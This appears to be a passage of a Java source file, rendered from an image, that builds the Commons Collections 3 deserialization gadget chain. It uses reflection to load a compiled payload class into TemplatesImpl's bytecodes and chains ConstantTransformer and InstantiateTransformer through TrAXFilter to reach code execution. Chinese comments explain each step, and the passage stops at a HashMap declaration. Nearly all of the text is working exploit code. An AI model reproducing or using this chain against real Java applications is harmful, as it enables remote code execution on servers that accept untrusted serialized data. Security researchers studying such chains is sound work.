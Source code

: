 ```plain
import javax.xml.transform.Templates;
import java.io.*;


import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CC3InstantiateTransformer {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(Templates,new TransformerFactoryImpl());

//        templates.newTransformer();
//        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);


        HashMap<Object,Object> map = new HashMap<>();
```